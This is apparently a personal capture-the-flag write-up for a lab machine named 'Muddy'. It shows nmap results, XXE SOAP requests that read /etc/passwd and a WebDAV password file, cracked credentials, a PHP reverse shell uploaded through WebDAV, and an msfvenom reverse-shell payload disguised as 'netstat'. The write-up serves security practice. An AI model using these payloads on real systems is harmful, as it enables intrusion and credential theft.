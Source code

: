 #InProgress 
```IP
192.168.177.161
```
## Nmap
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
25/tcp   open  smtp    syn-ack ttl 61 Exim smtpd 4.92
| smtp-commands: muddy Hello muddy.ugc [192.168.45.192], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
|_http-title: Muddy | Found some mud? Call us! &#8211; A muddy WordPress!
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.7
111/tcp  open  rpcbind syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
908/tcp  open  unknown syn-ack ttl 61
8888/tcp open  http    syn-ack ttl 61 WSGIServer 0.1 (Python 2.7.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.16
|_http-title: Ladon Service Catalog
Service Info: Host: muddy; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Nmap UDP


# Enumeration
## SMTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021102002.png?raw=true)

## HTTP 80
Wordpress 5.7
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021101424.png?raw=true)
no parece que pueda entrar con credenciales por defecto a webdav
no encuentro el wp-admin
con davtest y nuestras nuevas credenciales conseguidas en el 8888 vemos que podemos ejecutar y subir ficheros php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113305.png?raw=true)
Y ahora con cadaver subimos una revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113138.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113419.png?raw=true)
## HTTP 8888
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021094337.png?raw=true)
powered by ladon for python
```txt
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021095142.png?raw=true)
user ian seems to have sh

```
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021112019.png?raw=true)
```
administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0
```
```
administrant:sleepless
```
Vamos al webdav del puerto 80 con nuestras nuevas credenciales
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021120626.png?raw=true)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -a x64 -f elf -o netstat
```

## Automated

### Peass

```
-rw-r--r-- 1 root root 3296 Mar 20  2021 /var/www/html/wp-config.php                    
define( 'DB_NAME', 'wp' );                                                              
define( 'DB_USER', 'wpadmin' );                                                         
define( 'DB_PASSWORD', 'ec99e2a005aa8cf0550ddfbdcde11141' );                            
define( 'DB_HOST', 'localhost' ); 
```

crontab -l
```
@reboot /usr/local/bin/ladon-2.7-ctl testserve /var/tmp/ladon/muddy.py -p 8000
```

### Mimikatz

